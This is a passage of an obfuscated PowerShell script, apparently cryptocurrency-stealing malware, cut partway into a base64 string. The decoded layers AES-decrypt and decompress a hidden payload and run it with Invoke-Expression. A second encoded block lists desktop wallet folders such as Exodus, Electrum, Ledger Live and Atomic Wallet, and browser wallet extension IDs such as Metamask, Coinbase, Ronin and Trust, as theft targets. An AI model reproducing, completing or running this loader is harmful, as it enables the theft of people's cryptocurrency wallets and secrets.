IAMABYADQAVQBVAFgAVwBJADQANwAzAE4AcwBoAG0ASABIAHkAZwBuAEkAUwAxAGgASAA1AEYAUwBRAFoAcABFAEkAUQBrADkAdgByADgAawBWAEMARgAzAGsATwAzAGQAawBDADUASgBlAFoASAArAHgAQQByAEwARQB1AFQAdwBDAG8AeABzAHQASQAzAGsARQBpAHkARQBxAGIANgBmAEEASgBOADkAVQA3ADkARABJAGIAeABQAEsAdgB6AE8AcABqAFgAUgBwAEcAcABBAGIAMgBoAHEAbABJAFEARgBJAEMAbwBoAGIAMwBNAG0AMgBtAHMAbwBoAGUAYgBzAFYAdwBDAGUAbgB3AGgAawByAHYATQBsAHoAdgBYAEcAQgBUADYAcQBYAHAAZABMADEASwB4AHUAQQBXAE0AWAA0AFMAUwBJAHMANwB4AG8AdgBCAGwAVABqAEsATABTAFUAaABBAC8ASgAzAEwAawBFAE8ATABmAFYATwBXAEQAWQBNAFoASABFAGQAMQBoADQARgBjAEIAUABZAGsAegBkAFQAZQB4AC8AWgAyAGwAVwByAE8ALwBjAEMAbwB5AHkAbQBPADUAOABxAEkAYgAwADgAUgA3ADYAOAA1AGQALwBBAEQAVABWAEYATABzAHgAaQB1AEQAZQBCAFcANgBQAHYAWAAyADQAagByAG0AVwA2AFgAUQB5AFEAbQBnAFcAbABJAGQAbQBBAHMAMABwAHAAYQBxADkAaAA5AFgAUwA4AFAAUwB3AEIAMAAyAHoASABoAEEARABlAHkASgAwAE4AVwBBAGMAKwBSAGcAUQBvAG8AUgAzAG8AZABlAEIAbwArADEARgAwAHEAOQBDAEIAcABaAHYAdQBNAGcAaQArAHgAVABRAGIAOQBLAGcAagBKAEcAegB3AHcAZgAwADAAdQBaADIARABqAEoAUgAvAHkAMQBUADEARgBoAHQAWgBtAHMAeQBXAGUAZgBsAGEAdgBmAGcAWABuAGQALwBZAEgAbABGAHgAWQBoAGkAcwBWAHMAdwBiAEwAYgBNAHMAWAB4AEwATQB6AGoAbQB6AHAAcgBYAHMAVwBlAG4AOABmAEIAbQBVAGEAVgBuAGgAUwBQAHoAdgAyAEYAOQB2AEsAQQBzAFIAYQBxAGEAMgBUAHAARgBHAFMAVwBLAHEAMQBMAG0ATQBkAGMATwAxAGEAVQBXAGsAagBtAFgAQwBZAE8AbQBOAHIAZwAzAHUAZABXAHIAawBhAFEAZABUAEEAUwBzAEcASAAyAEcAOQBjAGYANQAzAFcAcQB6ADcAbgBVADcAYQBBAEEAcwA2AEgAegBEAEgAOABuAEkASgBQAHgAagBSAEwAVgB1AGoARgBqAHgAdAB3AEYAZABTAEYAaAB3AFoARQBiAGQAUAA1AFUATgBFAHkAagBDAC8AZABtAHQAdwBJAFcAbAA0AHQAbABTAE0AdQBFAFoAbgBlAE8AYgAyAEcAMQBnADkAawA0AHUAeQAyAHMAdQBEADkAZwBYAGwAZgA5AFUATgArACsAdABCAFUAagBjADQAaQBoADMAcQB3AEUAcAB4AGsAdgBwAFAAbQBHAGkARQAwAHkANQBlAHYAUwBrAG0AQQA1AGcAdwBXADgANQB2AGQASgBwAFMATQAvAGwAbwBRADQATQBZAEEARAB4AGkAYwBwADYAZwBuAHoAVgBqAHgASwBSAGUAWgBKAGMAeABzADUAMQB0ADcASQAyAGsAMQBPAFkAawArADMAWgBFAGwAWAB5AG8AeAB3AHoANQBZAFYATwBIAHUAcwBFAEkAUwBGAHkAZgBvAEoAWABCAFQAYgBmAHYASAB4AG8AMABNAHUAQQBvAGQAdABQAFIAbwBKAGsATgBWAEEAMQBiAGQAQgBsAFYAbgBTAGYALwBkAEUAVQBYAFQAYgBoAGUATgB1AHcAbQBUAEgAdQBRAEkAdwB3AC8AVwBWAEcAdwBlAEsAeQBUAGoANABsAHEAZgBzAGoAZABnAGsAcgBOACsATwBBAGoAbgB0AEoASABjAEUARwBvADUAMAA1AG8AZAB0AHYAcgBMADQANgBvACsAQQBUAHkAWQBNADAARABzAFoAaQByAG4AcABBADYAMwBaAHYAWABaAC8AUgBtAGIAeABEAHAATwAzADgARwBCADIATwBzAG4ATQBCAFcAdwA4AFIAWAB5AG4AOQBCAHcAcABVADkANgBsAEcAQQB2AG8AeQBjADYAVABlAGEATQBmACsAVwBSAE8AZwBqAFIANwBnAFUAdwAzAEoARQBzADcAaQBiAHkAWgA1ADkAKwBXAFYASgAyADAAZQBTAGcAbwBsAGcAZgBaAHIAawBVAEwAWAByADAAeQBsAFMALwBqAHUAcQBqADMATQBtAGkAYwBqAC8AMQBxAHMAcwAzADEAUQBhAEUAQQBVAEEAZQBFAHIAdQBQAFUAMABHADkATABoADcAagBoAEwAUgB0AFcAaABBAGMAOQBDAGoAZgBDAHAAbQAzADgARQB0AGQALwBHAE8ASAAwAE0AVQA0AHMAcgBBAHoAVQBnAHcAYQBQAGwAYwA1AEsAbgBBADQAUAA2ADkAZgB3AHUAbwBkAHEAaABCAHoANwBYAFYAQwBHAHMAUQBPAGEAbgBhAEoAeABZADMAdABPAFoAOABkAHYATAA1ADAAZABmAGgAUgByADQARQAyAHgAOQBYADYARABNAGUAMABKACsAcABUAEEAZwAzADIAMwBiAGsAUQBZAGsAVgBJAGYAUAAyAG8ANgBuAFkAMwBmADcATQBXAHoAbABRAEwAOQBZADYANgBWAE8AVgBIAEsANAB3AHAAbgBvAG4ASgBOAEwAcQBEADMAdgBSAGwAQwBaAEYANQBQAHgAWABQAG8ATgBMAEMANQAzAEoAVQBMAEEAcwBPADkAVwBpAFUASgB3AHUAdABtAEIAQQB0AEQAeABNAHUAdwBFADYAWgBHAFgAWQB0AE8AUgBMAFMAUAAxAGIAOAA1AHoAMwAwAGEATgB1AEkAcwB1AFgAZQBiAG8ANgBQAFcAcwBaAEgAYwBaAEcAVQBjAHEAYgBkAGoAYwBYAHkAeQBXAGgAVgBDAHYAZgBFAFQAUgA3AEYAMwBHAEMAVQBWAGgAdwBWAFIAZgBpAE0AWQAwAGMAbgBPADAASQBNAFoAcABoAFoAMwA1AEQALwB1AEkAeQBNAEIAbABkAHUAegArAHQAOABOAE8ASQBXADcATABTAGMAbQBCAHkASQBDADgASQArAFoAMwBUAGgAZwBkACsAVABLADcANABlAFQAbQBoAFEAZgAyAGMARQBqADcAQQBjAFEAUgBaADgANQBEAE0AbwBlAHkAZQBaADgAWQBOAEkAMQBQAEUAegBCAEsAcABCAHIAWQBXAFoATABoAHIAOQBVAFYATAAvAE8AbwAvAG0AdQBxAEoANABjAGYAYQBpAGgANQB6AFUANQBSAHYAUgBnAGUAUwBtAHYALwBMAHcAMAB1AGQAQQAxAEcAQwB4ADgAUABiAE0ATwBtAEQAZQBSAEgAbgBXADkAYQBmAE0AVwAwAEUALwBtADcAZQBuAHYAbQBLAGUAWgByADgASgBIAHcATQBQAEQARwA2AHgAVQBrAHAAMwBXAGkAZwBRADAAVgBhAEYAQgA0AG4ARgBrAFIAUQBGAHoAbwBmAE8ASABCAHYATgBkAFcAQQAzAEMAWQBzAG4AcwBTAEIAdAB0AGoAUQB4ADgARQA2ADAAcAA3ADYASABWAGoAZQBOAGsAdwBZAEQAMwBtAHQAVAB4AE8ASgBuAFYAdQBYAFkATAAyAG8ATQBVAHAAYgB2AE0AZABsAGEANgBDAHIAYgB0ADkAQQA0AFgAZQBpAE0AdgBLAG0AZwBTAFQARAB0AHMAZgBMAFMALwBoAEYAQQBPAGgAMAA4AGoAcgAyAGcAbwBoAFQAQwBNADcAUQB1AEQAUwArAHgASwB2AGIAWQBHADYAdQA0AHIAOABuAEYAaQAvAGMAcgBjACsASwAvADIAYgBBAEgAcgB0AGgAOABKAEIAUQAxAEMAaQBrAC8ATgB4AFgAaQBjAGgASAArAHEAMwBFAFYAaABPADEASgBLAFoAOABpADkAVABtAE4AbABiAEoAQQBhAFkASgBjAE0AUwAzAHMAeQAzAHgASgBGAEUAdABkAGIAbwBLAGMASwBaAEMALwAxAEkAeQBPAHoAcQAwAFoAZABiAEQANQBaAGgATwArAEcASwBVAHMAMgA0AC8ARwBSADAAZgBoAGoASwBFAEEAKwAwAG0ASQB2AGEARgBYAHUAUgBWACsAYQA2AG4AUABYAGIAMwBaAHkAQgBGAE0AbgBNAHUAaABQADkAegBCADMAbQBkAEYAVgB1ADkARwBzAFUATQBiAEoAYwB0AG0ANQBNAC8AbQBrAFkAZgB1AEIAOQBOAHkAaQBoAEwAaQBuAEwANwBEAFAANwBTAGoAcgBKAHQALwBCAFAAYQByAFUAUABvAE0AcwBFAHIARABWADIAMQBTAE8ATgBqAHMAagBkAEMARgBJAC8AVgB3AHEAWAByADgAYQBTAHcAawBsAGoAcQBXACsARgBGAHMAeABjAGoAaABtAHUAVQBEADgAMQBiAHIAYgBmAHEANgB2AEIATgB4AFYATABiAEEALwBuAFkAUgBHAHQARgBrAE0ANgBBAGIAZwBOAHkATABUAHYARwA5AFEAUABqAFoAWABkADkAWQBIAFgAWgA0AGkAQQBSAFEANgBQAEcATwBRAGQAdABkAHgARwArAE0AVgBqAGMAaABxAHAAYwB5AHYAZQBTAHIAbQBvAD0AZgAwAHUAdgBzAHUAaABsAEwAZgBFAHcAagBWADYAcQBNAFMAawB3AHoAYwAxAFgAMAA5AGEAdABjAE0AMgBlACIACgAkAGIAYQBzAGUANgA0AEUAbgBjAHIAeQBwAHQAZQBkAEYAdQBuAGMAdABpAG8AbgAgAD0AIAAkAGIAYQBzAGUANgA0AGMAbwBkAGUAZAAuAFMAdQBiAHMAdAByAGkAbgBnACgAMwAyACwAIAAkAGIAYQBzAGUANgA0AGMAbwBkAGUAZAAuAEwAZQBuAGcAdABoACAALQAgADYANAApAAoAJABrAGUAeQAxACAAPQAgACIARgByAEYANABiAGoAVABXAGEATQBQAEUAMABGAFUAOAAiAAoAJABrAGUAeQAyACAAPQAgACIAUQA5ADcAVABxAEQAWABLAEQAbgBIAE8AbgBGAG4AZQAiAAoAJABrAGUAeQAzACAAPQAgACIAYgAxAHgANwBvAFQANwBMAEEAdABaAHEANQB1ADYARwAiAAoAJABmAHUAbABsAEsAZQB5ACAAPQAgACQAawBlAHkAMQAgACsAIAAkAGsAZQB5ADIAIAArACAAJABrAGUAeQAzAAoAJABzAGEAbAB0ACAAPQAgACIAbwB0AHMARwBDAGYASwBPAEIAYQBpAGcASgBCAHcANgAiAAoAJABrAGUAeQBEAGUAcgBpAHYAYQB0AGkAbwBuACAAPQAgAFsAUwB5AHMAdABlAG0ALgBTAGUAYwB1AHIAaQB0AHkALgBDAHIAeQBwAHQAbwBnAHIAYQBwAGgAeQAuAFIAZgBjADIAOAA5ADgARABlAHIAaQB2AGUAQgB5AHQAZQBzAF0AOgA6AG4AZQB3ACgAJABmAHUAbABsAEsAZQB5ACwAIABbAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBVAFQARgA4AC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGEAbAB0ACkALAAgADEAMAAwADAAKQAKACQAawBlAHkAQgB5AHQAZQBzACAAPQAgACQAawBlAHkARABlAHIAaQB2AGEAdABpAG8AbgAuAEcAZQB0AEIAeQB0AGUAcwAoADMAMgApAAoAJABpAHYAIAA9ACAAIgBRADQATgBmAEMAaQBtAFUAZQB1AHoAbQBzAHkAdABFACIACgAkAGkAdgBCAHkAdABlAHMAIAA9ACAAWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBUAEYAOAAuAEcAZQB0AEIAeQB0AGUAcwAoACQAaQB2ACkACgBpAGYAIAAoACQAaQB2AEIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACAALQBsAHQAIAAxADYAKQAgAHsAIAAkAGkAdgBCAHkAdABlAHMAIAA9ACAAJABpAHYAQgB5AHQAZQBzACAAKwAgAEAAKAAwACkAIAAqACAAKAAxADYAIAAtACAAJABpAHYAQgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQAgAH0AIABlAGwAcwBlAGkAZgAgACgAJABpAHYAQgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAIAAtAGcAdAAgADEANgApACAAewAgACQAaQB2AEIAeQB0AGUAcwAgAD0AIAAkAGkAdgBCAHkAdABlAHMAWwAwAC4ALgAxADUAXQAgAH0ACgAkAGEAZQBzACAAPQAgAFsAUwB5AHMAdABlAG0ALgBTAGUAYwB1AHIAaQB0AHkALgBDAHIAeQBwAHQAbwBnAHIAYQBwAGgAeQAuAEEAZQBzAF0AOgA6AEMAcgBlAGEAdABlACgAKQAKACQAYQBlAHMALgBLAGUAeQAgAD0AIAAkAGsAZQB5AEIAeQB0AGUAcwAKACQAYQBlAHMALgBJAFYAIAA9ACAAJABpAHYAQgB5AHQAZQBzAAoAJABkAGUAYwByAHkAcAB0AG8AcgAgAD0AIAAkAGEAZQBzAC4AQwByAGUAYQB0AGUARABlAGMAcgB5AHAAdABvAHIAKAApAAoAJABlAG4AYwByAHkAcAB0AGUAZABCAHkAdABlAHMAIAA9ACAAWwBTAHkAcwB0AGUAbQAuAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACQAYgBhAHMAZQA2ADQARQBuAGMAcgB5AHAAdABlAGQARgB1AG4AYwB0AGkAbwBuACkACgAkAGQAZQBjAHIAeQBwAHQAZQBkAEIAeQB0AGUAcwAgAD0AIAAkAGQAZQBjAHIAeQBwAHQAbwByAC4AVAByAGEAbgBzAGYAbwByAG0ARgBpAG4AYQBsAEIAbABvAGMAawAoACQAZQBuAGMAcgB5AHAAdABlAGQAQgB5AHQAZQBzACwAIAAwACwAIAAkAGUAbgBjAHIAeQBwAHQAZQBkAEIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkACgAkAG0AZQBtAG8AcgB5AFMAdAByAGUAYQBtACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEkATwAuAE0AZQBtAG8AcgB5AFMAdAByAGUAYQBtACgALAAgACQAZABlAGMAcgB5AHAAdABlAGQAQgB5AHQAZQBzACkACgAkAGcAegBpAHAAUwB0AHIAZQBhAG0AIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ASQBPAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAC4ARwBaAGkAcABTAHQAcgBlAGEAbQAoACQAbQBlAG0AbwByAHkAUwB0AHIAZQBhAG0ALAAgAFsAUwB5AHMAdABlAG0ALgBJAE8ALgBDAG8AbQBwAHIAZQBzAHMAaQBvAG4ALgBDAG8AbQBwAHIAZQBzAHMAaQBvAG4ATQBvAGQAZQBdADoAOgBEAGUAYwBvAG0AcAByAGUAcwBzACkACgAkAHMAdAByAGUAYQBtAFIAZQBhAGQAZQByACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEkATwAuAFMAdAByAGUAYQBtAFIAZQBhAGQAZQByACgAJABnAHoAaQBwAFMAdAByAGUAYQBtACkACgAkAGQAZQBjAHIAeQBwAHQAZQBkAEYAdQBuAGMAdABpAG8AbgAgAD0AIAAkAHMAdAByAGUAYQBtAFIAZQBhAGQAZQByAC4AUgBlAGEAZABUAG8ARQBuAGQAKAApAAoASQBuAHYAbwBrAGUALQBFAHgAcAByAGUAcwBzAGkAbwBuACAAJABkAGUAYwByAHkAcAB0AGUAZABGAHUAbgBjAHQAaQBvAG4A"
$decodedScript = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($encodedScript))
Invoke-Expression $decodedScript
$encodedJson = "JABwAGEAdABoAGQAYQB0AGEAIAA9ACAADQAKAEAAJwANAAoAWwANAAoAIAAgACAAIAB7AA0ACgAgACAAIAAgACAAIAAgACAAIgByAG8AbwB0ACIAOgAgACIAJQBhAHAAcABkAGEAdABhACUAIgAsAA0ACgAgACAAIAAgACAAIAAgACAAIgB0AGEAcgBnAGUAdABzACIAOgAgAFsADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAHsADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBuAGEAbQBlACIAOgAgACIARQB4AG8AZAB1AHMALQBBACIALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAHAAYQB0AGgAIgA6ACAAIgBFAHgAbwBkAHUAcwAiAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB9ACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAHsADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBuAGEAbQBlACIAOgAgACIAQQB0AG8AbQBpAGMALQBBACIALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAHAAYQB0AGgAIgA6ACAAIgBBAHQAbwBtAGkAYwAgAFcAYQBsAGwAZQB0ACIADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAH0ALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAewANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAG4AYQBtAGUAIgA6ACAAIgBFAGwAZQBjAHQAcgB1AG0ALQBBACIALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAHAAYQB0AGgAIgA6ACAAIgBFAGwAZQBjAHQAcgB1AG0AIgANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAfQAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB7AA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAbgBhAG0AZQAiADoAIAAiAEwAZQBkAGcAZQByAC0AQQAiACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBwAGEAdABoACIAOgAgACIATABlAGQAZwBlAHIAIABMAGkAdgBlACIADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAH0ALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAewANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAG4AYQBtAGUAIgA6ACAAIgBKAGEAeAB4AC0AQQAiACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBwAGEAdABoACIAOgAgACIASgBhAHgAeAAgAEwAaQBiAGUAcgB0AHkAIgANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAfQAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB7AA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAbgBhAG0AZQAiADoAIAAiAGMAbwBtAC4AbABpAGIAZQByAHQAeQAuAGoAYQB4AHgALQBBACIALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAHAAYQB0AGgAIgA6ACAAIgBjAG8AbQAuAGwAaQBiAGUAcgB0AHkALgBqAGEAeAB4ACIADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAH0ALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAewANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAG4AYQBtAGUAIgA6ACAAIgBHAHUAYQByAGQAYQAtAEEAIgAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAcABhAHQAaAAiADoAIAAiAEcAdQBhAHIAZABhACIADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAH0ALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAewANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAG4AYQBtAGUAIgA6ACAAIgBBAHIAbQBvAHIAeQAtAEEAIgAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAcABhAHQAaAAiADoAIAAiAEEAcgBtAG8AcgB5ACIADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAH0ALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAewANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAG4AYQBtAGUAIgA6ACAAIgBEAEUATABUAEEALQBBACIALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAHAAYQB0AGgAIgA6ACAAIgBEAEUATABUAEEAIgANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAfQAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB7AA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAbgBhAG0AZQAiADoAIAAiAFQAUgBFAFoATwBSAC0AQQAiACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBwAGEAdABoACIAOgAgACIAVABSAEUAWgBPAFIAIABCAHIAaQBkAGcAZQAiAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB9ACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAHsADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBuAGEAbQBlACIAOgAgACIAQgBpAHQAYwBvAGkAbgAtAEEAIgAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAcABhAHQAaAAiADoAIAAiAEIAaQB0AGMAbwBpAG4AIgANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAfQAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB7AA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAbgBhAG0AZQAiADoAIAAiAGIAaQBuAGEAbgBjAGUALQBBACIALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAHAAYQB0AGgAIgA6ACAAIgBiAGkAbgBhAG4AYwBlACIADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAH0ALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAewANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAG4AYQBtAGUAIgA6ACAAIgBtAGUAeABjAC0AQQAiACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBwAGEAdABoACIAOgAgACIAbQBlAHgAYwAiAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB9AA0ACgAgACAAIAAgACAAIAAgACAAXQANAAoAIAAgACAAIAB9ACwADQAKACAAIAAgACAAewANAAoAIAAgACAAIAAgACAAIAAgACIAcgBvAG8AdAAiADoAIAAiACUAbABvAGMAYQBsAGEAcABwAGQAYQB0AGEAJQAiACwADQAKACAAIAAgACAAIAAgACAAIAAiAHQAYQByAGcAZQB0AHMAIgA6ACAAWwANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAewANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAG4AYQBtAGUAIgA6ACAAIgBCAGwAbwBjAGsAcwB0AHIAZQBhAG0ALQBBACIALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAHAAYQB0AGgAIgA6ACAAIgBCAGwAbwBjAGsAcwB0AHIAZQBhAG0AIABHAHIAZQBlAG4AIgANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAfQAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB7AA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAbgBhAG0AZQAiADoAIAAiAEMAbwBpAG4AbwBtAGkALQBBACIALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAHAAYQB0AGgAIgA6ACAAIgBDAG8AaQBuAG8AbQBpACIADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAH0ADQAKACAAIAAgACAAIAAgACAAIABdAA0ACgAgACAAIAAgAH0ALAANAAoAIAAgACAAIAB7AA0ACgAgACAAIAAgACAAIAAgACAAIgByAG8AbwB0ACIAOgAgACIAJQBsAG8AYwBhAGwAYQBwAHAAZABhAHQAYQAlAFwAXABHAG8AbwBnAGwAZQBcAFwAQwBoAHIAbwBtAGUAXABcAFUAcwBlAHIAIABEAGEAdABhAFwAXABEAGUAZgBhAHUAbAB0AFwAXABFAHgAdABlAG4AcwBpAG8AbgBzACIALAANAAoAIAAgACAAIAAgACAAIAAgACIAdABhAHIAZwBlAHQAcwAiADoAIABbAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB7AA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAbgBhAG0AZQAiADoAIAAiAE0AZQB0AGEAbQBhAHMAawAtAEMAIgAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAcABhAHQAaAAiADoAIAAiAG4AawBiAGkAaABmAGIAZQBvAGcAYQBlAGEAbwBlAGgAbABlAGYAbgBrAG8AZABiAGUAZgBnAHAAZwBrAG4AbgAiAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB9ACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAHsADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBuAGEAbQBlACIAOgAgACIATQBFAFcAYwB4AC0AQwAiACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBwAGEAdABoACIAOgAgACIAbgBsAGIAbQBuAG4AaQBqAGMAbgBsAGUAZwBrAGoAagBwAGMAZgBqAGMAbABtAGMAZgBnAGcAZgBlAGYAZABtACIADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAH0ALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAewANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAG4AYQBtAGUAIgA6ACAAIgBDAG8AaQBuADkAOAAtAEMAIgAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAcABhAHQAaAAiADoAIAAiAGEAZQBhAGMAaABrAG4AbQBlAGYAcABoAGUAcABjAGMAaQBvAG4AYgBvAG8AaABjAGsAbwBuAG8AZQBlAG0AZwAiAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB9ACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAHsADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBuAGEAbQBlACIAOgAgACIAQgBpAG4AYQBuAGMAZQAtAEMAIgAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAcABhAHQAaAAiADoAIAAiAGYAaABiAG8AaABpAG0AYQBlAGwAYgBvAGgAcABqAGIAYgBsAGQAYwBuAGcAYwBuAGEAcABuAGQAbwBkAGoAcAAiAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB9ACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAHsADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBuAGEAbQBlACIAOgAgACIASgBhAHgAeAAtAEMAIgAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAcABhAHQAaAAiADoAIAAiAGMAagBlAGwAZgBwAGwAcABsAGUAYgBkAGoAagBlAG4AbABsAHAAagBjAGIAbABtAGoAawBmAGMAZgBmAG4AZQAiAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB9ACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAHsADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBuAGEAbQBlACIAOgAgACIAQwBvAGkAbgBiAGEAcwBlAC0AQwAiACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBwAGEAdABoACIAOgAgACIAaABuAGYAYQBuAGsAbgBvAGMAZgBlAG8AZgBiAGQAZABnAGMAaQBqAG4AbQBoAG4AZgBuAGsAZABuAGEAYQBkACIADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAH0ALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAewANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAG4AYQBtAGUAIgA6ACAAIgBSAG8AbgBpAG4ALQBDACIALAANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAiAHAAYQB0AGgAIgA6ACAAIgBmAG4AagBoAG0AawBoAGgAbQBrAGIAagBrAGsAYQBiAG4AZABjAG4AbgBvAGcAYQBnAG8AZwBiAG4AZQBlAGMAIgANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAfQAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB7AA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAbgBhAG0AZQAiADoAIAAiAFQAcgB1AHMAdAAtAEMAIgAsAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACIAcABhAHQAaAAiADoAIAAiAGUAZwBqAGkAZABqAGIAcABnAGwAaQBjAGgAZABjAG8AbgBkAGIAYwBiAGQAbgBiAGUAZQBwAHAAZwBkAHAAaAAiAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAB9ACwADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgAHsADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIgBuAGEAbQBlACIAOgAgACIAVgBlAG4AbwBtAC0AQwAiACwA